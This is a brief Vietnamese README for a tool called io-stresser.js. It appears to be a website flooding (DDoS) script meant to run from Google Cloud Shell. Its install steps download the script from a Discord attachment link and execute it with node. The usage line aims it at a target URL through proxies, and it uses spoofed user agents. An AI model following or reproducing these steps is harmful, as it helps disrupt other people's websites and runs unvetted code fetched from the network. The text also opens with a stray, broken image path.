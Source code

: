 # io-stresser.js

mỗi trường thực hiện
=======
[Google Shell](https://shell.cloud.google.com/)

cài đặt
=======
```
wget https://cdn.discordapp.com/attachments/912663711297183744/918331196008710254/io-stresser.js
npm install axios
npm install request
npm install fake-useragent
node io-stresser.js
```
cách sử dụng
=======
```
node io-stresser.js <URL> 5 proxy
```
